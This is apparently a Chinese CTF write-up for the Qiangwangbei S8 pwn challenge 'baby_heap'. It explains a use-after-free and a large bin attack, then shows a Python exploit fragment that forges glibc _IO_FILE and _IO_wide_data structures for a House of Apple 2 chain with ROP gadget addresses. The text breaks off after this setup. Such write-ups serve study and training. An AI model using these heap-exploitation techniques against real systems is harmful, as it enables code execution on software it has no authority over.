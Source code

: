 ```yaml
---
title: 强网杯S8 - Pwn 个人题解 & 未更完
published: true
---
```


| 目录跳转: |
|--------|
| [PWN: baby_heap 通解 - 附Exp](#pwn-baby_heap-通解) |
| [PWN: baby_heap 特解 - 附Exp](#pwn-baby_heap-特解) |
| [PWN: expect_number - 附Exp](#pwn-expect_number) |
| [PWN: prpr - 未更新](#pwn-prpr) |

| 文件下载: |
|--------|
| [baby_heap.zip](/image/qwbs8/baby_heap.zip) |
| [expect_number.zip](/image/qwbs8/expect_number.zip) |
| [prpr.zip](/image/qwbs8/prpr.zip) |

# [](#header-3)pwn baby_heap 通解

这个题很适合当 large bin 大堆溢出打 House of Apple 2 链的板子题. 但是如果真这样做，会绕很多弯路，最优解应该是利用到 Secret Shop 修改 got 表  
通解没有利用到 Secret Shop 和 print_env，而是直接用的 large chunk 来打  

这个程序在堆已经被 释放 后依然可以向该堆写入内容，因此有了可乘之机. 首先构造 House of Apple 2 通用板子

```py
# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,  										# file._flag
	0x18:   p64(leave_ret_c),							# file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),	# 写 IO_list_all - 0x20 的地址至 bk_size，下一次分配小堆元素时就会分配到这里
	0x48: 	p64(orw_addr),  							# file._IO_save_base
	0x88:   p64(lock),                 					# file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),             			# file._wide_data 
	# struct
	0xd8:   p64(wfile),									# file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
	0xe0:	p64(widedata_addr + 0xe8),					# _IO_wide_data._IO_read_ptr
	0x150:	p64(magic_gadget),							# 
}, filler=b'\0')

```
